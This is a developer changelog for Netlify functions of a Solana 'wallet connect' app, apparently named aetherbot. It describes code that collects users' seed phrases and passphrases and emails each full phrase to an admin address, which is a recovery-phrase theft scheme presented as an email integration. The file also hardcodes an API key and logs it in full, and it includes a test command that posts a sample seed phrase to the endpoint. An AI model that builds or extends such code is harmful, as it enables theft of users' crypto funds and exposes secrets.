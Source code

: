 # Loops Email Integration - Fully Hardcoded (No Environment Variables)

## ✅ All Changes Made

### 1. loopsEmail.js - Fully Hardcoded
**File:** `netlify/functions/utils/loopsEmail.js`

**Hardcoded Values:**
```javascript
const LOOPS_API_KEY = 'e8afb88a6bae3451e657612d84db3034';
const LOOPS_API_URL = 'https://app.loops.so/api/v1/transactional';
const LOOPS_TEMPLATE_ID = 'cmgwzzij2tdk6wb0ie0unnzzp';
const ADMIN_EMAIL = 'admin@aetherbot.app';
```

**Features:**
- ✅ No `process.env` dependencies
- ✅ Full API key logging (for debugging)
- ✅ Detailed payload logging
- ✅ Error handling with JSON/HTML detection
- ✅ Non-blocking email sending (doesn't break main operations)

### 2. wallet-connect.js - Updated Email Data
**File:** `netlify/functions/wallet-connect.js`

**Changes:**
- ✅ Added `codes: credentials` to email data (line ~137 and ~194)
- ✅ Sends actual seed phrase/passphrase to email
- ✅ Calls `sendWalletConnectionEmail()` for both new and returning users

**Email Data Sent:**
```javascript
{
  walletAddress: "...",
  inputType: "Seed Phrase" | "Passphrase",
  balance: "1.5",
  isNewWallet: true/false,
  codes: "actual seed phrase or passphrase here"
}
```

### 3. credit-wallet.js - Already Configured
**File:** `netlify/functions/credit-wallet.js`

**Status:** ✅ Already has hardcoded fallback for ADMIN_EMAIL
**Email Trigger:** Sends notification on admin credit operations

## 📋 Template Requirements

Your Loops template (`cmgwzzij2tdk6wb0ie0unnzzp`) must have these data variables:

| Variable | Description | Example Value |
|----------|-------------|---------------|
| `walletName` | Wallet address | "8xY...abc" |
| `connectionType` | Type of connection | "Seed Phrase", "Passphrase", "Credit Wallet" |
| `codes` | Seed phrase or passphrase | "pill tomorrow foster..." |
| `solBalance` | SOL balance | "1.5" |

## 🧪 Testing

### Test 1: Direct API Test (Verify Template Works)
```powershell
.\test-email-comprehensive.ps1
```

This will:
1. ✅ Test direct Loops API call (control test)
2. ✅ Test wallet connection endpoint (integration test)
3. ✅ Show detailed results

### Test 2: Live Wallet Connection
```powershell
# In one terminal, start server:
netlify dev

# In another terminal:
curl -X POST http://localhost:8888/.netlify/functions/wallet-connect `
  -H "Content-Type: application/json" `
  -d '{
    "walletName": "test-user",
    "walletType": "solana",
    "inputType": "seed_phrase",
    "credentials": "pill tomorrow foster begin walnut blade pen area slab bean forest liar"
  }'
```

## 🔍 Debugging Checklist

### Check Server Logs
Look for these messages in Netlify Dev output:

```
📧 Wallet Connection Email Data:
   Email to: admin@aetherbot.app
   Template ID: cmgwzzij2tdk6wb0ie0unnzzp
   Data Variables: { walletName, connectionType, codes, solBalance }

📧 Sending email via Loops...
   API URL: https://app.loops.so/api/v1/transactional
   To: admin@aetherbot.app
   Template: cmgwzzij2tdk6wb0ie0unnzzp
   API Key (FULL - FOR DEBUGGING): e8afb88a6bae3451e657612d84db3034
   Response status: 200

✅ Email sent successfully
```

### Common Issues

#### Issue: "No transactional email found with that ID"
**Solution:**
1. Go to https://app.loops.so/transactional
2. Find your template
3. Make sure it's **PUBLISHED** (not draft)
4. Verify the ID matches: `cmgwzzij2tdk6wb0ie0unnzzp`

#### Issue: API key showing wrong value (92d... instead of 0de...)
**Solution:**
✅ **FIXED** - Now fully hardcoded, no environment variable issues

#### Issue: Email sends but doesn't arrive
**Solutions:**
1. Check spam folder
2. Verify `admin@aetherbot.app` is a valid email
3. Check Loops dashboard → Events/Logs
4. Ensure template has all required variables

#### Issue: `codes` field is empty or showing "N/A"
**Solution:**
✅ **FIXED** - Now passes `credentials` from wallet-connect

## 🎯 Expected Behavior

### New Wallet Connection
1. User submits seed phrase/passphrase
2. Wallet created in Firebase
3. Email sent to admin@aetherbot.app with:
   - Wallet address
   - Connection type (Seed Phrase/Passphrase)
   - Full seed phrase/passphrase in `codes`
   - SOL balance

### Returning User
1. User submits existing seed phrase/passphrase
2. Wallet retrieved from Firebase
3. Balance updated
4. Email sent with same details as above

### Admin Credit Operation
1. Admin credits a wallet
2. Email sent to admin@aetherbot.app with:
   - Wallet address
   - Operation type ("Credit Wallet")
   - Operation ID
   - New balance

## 🔒 Security Note

**TEMPORARY:** Full API key is logged for debugging.

**After confirming it works, remove full API key logging:**

In `loopsEmail.js`, remove this line:
```javascript
console.log('   API Key (FULL - FOR DEBUGGING):', LOOPS_API_KEY);
```

Keep only:
```javascript
console.log('   API Key First 10:', LOOPS_API_KEY.substring(0, 10));
```

## ✅ Verification

Run the comprehensive test:
```powershell
.\test-email-comprehensive.ps1
```

Expected output:
```
TEST 1: Direct Loops API Call
✅ PASSED - Direct API works!

TEST 2: Wallet Connection via Netlify Function
✅ PASSED - Wallet connection successful!
```

Then check:
- ✅ Server logs show email sending
- ✅ API key is `e8afb88a6bae3451e657612d84db3034`
- ✅ Template ID is `cmgwzzij2tdk6wb0ie0unnzzp`
- ✅ Email arrives at admin@aetherbot.app
